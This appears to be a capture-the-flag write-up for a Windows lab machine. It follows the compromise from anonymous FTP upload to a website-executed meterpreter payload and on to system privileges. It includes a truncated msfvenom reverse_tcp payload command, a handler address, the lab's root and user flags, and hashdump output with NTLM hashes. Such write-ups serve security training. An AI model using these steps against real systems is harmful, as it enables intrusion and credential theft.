Devil Writeup
Who am I?
Devil is rated as an medium machine 
NMAP result
 We see FTP port 21 wiht Anonymous login. Port 80 is also open
HTTP
When we deal with a website, I like to open dirbuster for hidden directory
FTP
We start with logging to the ftwp with Anonymous user We downloaded the data to look for clues

We used the put command and manage to add a file to the FTP
 Since we are able to put files and execute them, we can add malware to the website
We are going to generate a malware, with msfvenom source: https://netsec.ws/?p=331>
Since it is a windows server we know it is using ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=

The above image did not work, we dont know if the windows system is a x64 or x86. WHen trying the above command our multi handler was listening and nothing happend. We then tried to do it again with a x86.
WE can see that we are not system
Meaning we can run some commands, we tried using getsystem but now luck. What we can try to do is to try run a post exploit which will try to find ways for us to be system, we but or current session in the background (ctrl+z, y) and go back to msfconsole
 
We are not system(root) what we can do is to run a post exploit that will find ways for use to be system We could try all of them, but let go with of that works, the post module found ways for use to get root We tried the first suggestion
 This wont works insce the handler is using 192.168.1.134, this is not our local host, we need to show options -> set lhost 10.10.14.14
port 4444 is already used
We got a meterpreter shell and this time we are root
 it seems to be a user with the name "babis" here lets hunt for flags, we go to c and tab for options
 root: e621a0b5041708797c4fc4728bc72b4b earlier we found a user named babies, we found her desktop and found the flag noticed the ".txt.txt"
user: 9ecdd6a3aedf24b41562fea70f4cb3e8
Extra, but no luck meterpreter > hashdump Administrator:500:aad3b435b51404eeaad3b435b51404ee:a450f6000be7df50ee304d0a838d638f::: babis:1000:aad3b435b51404eeaad3b435b51404ee:a1133ec0f7779e215acc8a36922acf57::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Conclusion